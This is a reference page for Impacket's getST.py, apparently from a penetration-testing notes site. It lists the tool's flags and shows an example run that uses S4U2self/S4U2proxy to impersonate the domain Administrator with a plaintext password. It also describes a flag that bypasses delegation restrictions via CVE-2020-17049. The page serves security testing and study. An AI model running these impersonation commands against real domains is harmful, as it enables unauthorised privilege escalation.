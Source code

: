 ```yaml
---
title : "GetST.py"
# pre : ' '
description : "Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache."
date : 2022-02-14T12:21:48+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## GetST.py

Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache.

## Installation

Install [Impacket]({{< ref "../impacket" >}}).

## Usage

```plain
getST.py [-h] [-spn SPN] [-altservice ALTSERVICE] [-impersonate IMPERSONATE] [-additional-ticket ticket.ccache] [-ts] [-debug] [-u2u] [-self] [-force-forwardable] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                [-dc-ip ip address]
                identity
```

## Flags

```plain
Impacket v0.12.0.dev1+20240718.115833.4e0e3174 - Copyright 2023 Fortra

positional arguments:
  identity              [domain/]username[:password]

options:
  -h, --help            show this help message and exit
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -altservice ALTSERVICE
                        New sname/SPN to set in the ticket
  -impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -additional-ticket ticket.ccache
                        include a forwardable service ticket in a S4U2Proxy request for RBCD + KCD Kerberos only
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -u2u                  Request User-to-User ticket
  -self                 Only do S4U2self, no S4U2proxy
  -force-forwardable    Force the service ticket obtained through S4U2Self to be forwardable. For best results, the -hashes and -aesKey values for the specified -identity should be provided. This allows impresonation of protected
                        users and bypass of "Kerberos-only" constrained delegation restrictions. See CVE-2020-17049

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If omitted it use the domain part (FQDN) specified in the target parameter

Examples: 
        ./getST.py -spn cifs/contoso-dc -hashes lm:nt contoso.com/user

        it will use the lm:nt hashes for authentication. If you don't specify them, a password will be asked
```

## Examples

[Using tickets](https://swarm.ptsecurity.com/kerberoasting-without-spns/).

To use tickets install the `klist` tool with `sudo apt install krb5-user`

```plain
$ getST.py -impersonate Administrator -spn 'host/SRV01.offsec.NL' offsec.NL/janedo:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

## URL List

- [Github.com - getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py)
